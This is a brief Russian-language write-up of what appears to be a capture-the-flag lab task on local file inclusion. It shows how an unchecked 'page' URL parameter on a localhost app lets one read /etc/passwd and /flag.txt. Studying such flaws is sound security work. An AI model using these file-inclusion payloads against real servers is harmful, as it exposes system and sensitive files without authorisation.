 В этом задании нужно было выполнить LFI (local file inclusion).  Приложение принимало в url параметр page с именем страницы, которую надо отобразить. То есть, url выглядел так:

```
http://localhost:20010/?page=about.php
```

Никаких проверок на значение параметра, преданного в page, нет, поэтому можно туда передать адрес файла, который находится на сервера и не является одной из страниц сайта. 
Например, так:
```
http://localhost:20010/?page=/etc/passwd
```

Или так:
```
http://localhost:20010/?page=/flag.txt
```